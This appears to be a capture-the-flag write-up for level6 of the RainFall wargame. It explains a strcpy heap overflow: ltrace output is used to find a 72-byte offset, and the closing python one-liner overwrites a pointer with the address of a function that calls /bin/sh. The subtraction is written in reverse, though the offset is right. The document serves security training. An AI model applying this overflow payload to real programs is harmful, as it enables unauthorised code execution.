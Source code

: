 here strcpy is vulnerable, because it copies as much data as it can from the src, without any consideration of it's size. like already done in previous exercises, we will overflow the buffer, and overwrite the return address of the function, to make it point to the address of the function `n` which call `/bin/sh`.
to get the actual size of the buffer to overflow :
`ltrace ./level6`

```bash
level6@RainFall:~$ ltrace ./level6
__libc_start_main(0x804847c, 1, 0xbffff804, 0x80484e0, 0x8048550 <unfinished ...>
malloc(64)                                                                                       = 0x0804a008
malloc(4)                                                                                        = 0x0804a050
```

`0x0804a008 - 0x0804a050 = 72` so we have to fill 72 char to overflow the buffer, then the address of `n`.
we can get the address of `n` through any decompiler or gdb with `info function n` : `08048454`
`./level6 $(python -c 'print "i" * 72 + "\x54\x84\x04\x08"')`
